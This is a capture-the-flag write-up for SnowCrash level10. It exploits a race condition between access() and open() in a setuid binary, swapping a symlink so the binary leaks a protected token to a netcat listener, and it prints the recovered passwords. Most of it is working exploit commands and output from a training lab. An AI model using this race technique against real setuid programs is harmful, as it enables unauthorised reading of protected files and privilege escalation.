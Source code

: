 `su level10 -> s5cAJpM8ev6XHw998pRWG728z`

We have a binary owned by flag10 and a token impossible to read:

```bash
level10@SnowCrash:~$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

Try to run the binary:

```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```

Try something without port information:

```bash
level10@SnowCrash:~$ ./level10 token  0.0.0.0
You don't have access to token
```

Try with a file with good permissions:

```bash
level10@SnowCrash:~$ echo 42 > /tmp/42
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

Now we know the port is `6969`. We can try to send the file to netcat server.
To do this we need to run netcat server in a terminal and send the file in another terminal.

- send the file:

```bash
level10@SnowCrash:~$ ./level10 /tmp/42  0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

- netcat server:

```bash
level10@SnowCrash:~$ nc -l 6969
.*( )*.
42
```

It's working but not with the token. Check what it's doing with ltrace with `/tmp/42`:

```bash
level10@SnowCrash:~$ ltrace ./level10 /tmp/42  0.0.0.0)
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>)
access("/tmp/42", 4)
printf("Connecting to %s:6969 .. ", "0.0.0.0")
fflush(0xb7fd1a20Connecting to 0.0.0.0:6969 .. )
socket(2, 1, 0)
inet_addr("0.0.0.0")
htons(6969, 1, 0, 0, 0)
connect(3, 0xbffff71c, 16, 0, 0)
write(3, ".*(
printf("Connected!\nSending file .. "Connected!)
)
fflush(0xb7fd1a20Sending file .. )
open("/tmp/42", 0, 010)
read(4, "42\n", 4096)
write(3, "42\n", 3)
puts("wrote file!"wrote file!
)
+++ exited (status 12)
```

The binary check first if our user can read the file and then open it and write in the socket.
We can exploit a **race condition** because the socket thinks are executed after the access and it take long time.
To do this we need to:

1- Listen with netcat

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
woupa2yuojeeaaed06riuj63c
```

-2 Create a file where we can access / delete it / create a symlink between the file and token:

```bash
level10@SnowCrash:~$ while true; do touch /tmp/42; rm -rf /tmp/42; ln -s $PWD/token /tmp/42; rm -rf /tmp/42; done
```

3- Send `/tmp/42` to the server a lots of times:

```bash
level10@SnowCrash:~$ while true ; do ./level10 /tmp/42 0.0.0.0 2> /dev/null; done
```

Then we get the token mulitple times:

```bash
level10@SnowCrash:~$ while true; do nc -l 6969 | grep -v ".*( )*."; done
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

Connect with this:

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
